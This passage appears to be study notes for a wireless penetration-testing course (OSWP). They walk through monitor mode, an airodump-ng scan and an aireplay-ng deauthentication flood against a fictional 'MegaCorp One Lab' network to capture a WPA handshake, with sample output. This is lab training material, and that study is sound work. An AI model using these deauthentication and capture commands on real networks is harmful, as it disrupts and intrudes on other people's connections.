 We will begin by gathering information about our target. We need to run `sudo airmon-ng check kill` to kill any process that might interfere with our wireless card. Once that is done, we'll run `sudo airmon-ng start wlan0` to start in monitor mode.

```bash
┌──(root💀gobots)-[16Apr2025 01:42:12]-[/home/kali/SUT/OSWP]
└─# sudo airmon-ng check kill    

Killing these processes:

    PID Name
 477475 wpa_supplicant
```

Next, we can use our new interface `(wlan0mon)` with airodump-ng to capture information about the clients and APs around us. We'll use `-w` to set the dump file prefix and `--output-forma`t to set the output format to be a pcap.

`what should be shown` - i am getting nothing because i need a new adapter.
```bash
kali@kali:~$ sudo airodump-ng -w discovery --output-format pcap wlan0mon
 CH 12 ][ Elapsed: 0 s ][ 2020-09-14 16:23

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:0E:08:FA:47:CD  -51        3        2    0   6  195   WPA2 CCMP   MGT  MegaCorp One
 00:0E:08:75:69:78  -70        2        0    0   1  130   OPN              MegaCorp One Guest
 00:0E:08:90:3A:5F  -75        3        0    0  11  130   WPA2 CCMP   PSK  MegaCorp One Lab

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 00:0E:08:90:3A:5F  E6:D9:CA:FE:B2:3C  -45    0 - 0e     0        2
 00:0E:08:90:3A:5F  05:E3:5C:E6:D9:A3  -68    0e-54      0        2
 00:0E:08:90:3A:5F  E6:EE:C0:FF:EE:84  -81    0 - 5e   487        6
 00:0E:08:FA:47:CD  98:D5:96:6D:25:78  -37    0 - 1e     0        2
 (not associated)   A7:AD:4B:2B:5E:EF  -54    0 - 1      3        9         Yugoslavia
 00:0E:08:75:69:78  FE:5C:BE:EF:D4:3F  -48    0 - 6      0        1
```

The output is sent to the terminal, but it is also saved in `discovery-01.cap`.

We will be targeting` "MegaCorp One Lab"`, which is a WPA-PSK network on channel 11 with three clients. It doesn't matter much if it's WPA1 or WPA2, since we will be using an open network on the same channel to trick clients into connecting to us.

We will need to `intercept` a handshake from one of the clients. To do so, we can either wait for one to connect or reconnect, or we can use aireplay-ng to deauthenticate clients. This will force them to reconnect and should allow us to capture the handshake.


```bash
kali@kali:~$ sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
16:24:14  Waiting for beacon frame (BSSID: 00:0E:08:90:3A:5F) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
16:24:14  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:15  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:15  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:16  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:16  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:17  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:17  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:18  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:18  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:19  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
...
```

Shortly after this, airmon-ng captures a "MegaCorp One Lab" handshake which is now saved in our `discovery-01.cap file`.

```bash
CH 12 ][ Elapsed: 0 s ][ 2020-09-14 16:23 ][WPA handshake:  00:0E:08:90:3A:5F ]

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:0E:08:FA:47:CD  -51        9        2    0   6  205   WPA2 CCMP   MGT  MegaCorp One
 00:0E:08:75:69:78  -70        7        0    0   1  178   OPN              MegaCorp One Guest
 00:0E:08:90:3A:5F  -75       12        0    0  11  225   WPA2 CCMP   PSK  MegaCorp One Lab
 ...
```

This will be important to use later on in our attack.